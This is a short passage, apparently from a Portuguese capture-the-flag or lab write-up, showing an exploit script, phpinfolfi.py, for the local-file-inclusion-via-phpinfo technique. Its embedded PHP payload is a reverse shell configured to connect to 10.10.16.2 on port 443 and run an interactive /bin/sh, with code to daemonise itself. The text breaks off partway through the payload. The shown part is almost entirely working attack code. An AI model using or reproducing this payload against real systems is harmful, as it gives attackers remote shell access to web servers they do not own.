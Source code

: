 O arquivo ficou assim no final...

phpinfolfi.py
```
#!/usr/bin/python
# https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf
from __future__ import print_function
from builtins import range
import sys
import threading
import socket

def setup(host, port):
    TAG="Security Test"
    PAYLOAD="""%s\r
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.16.2';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

```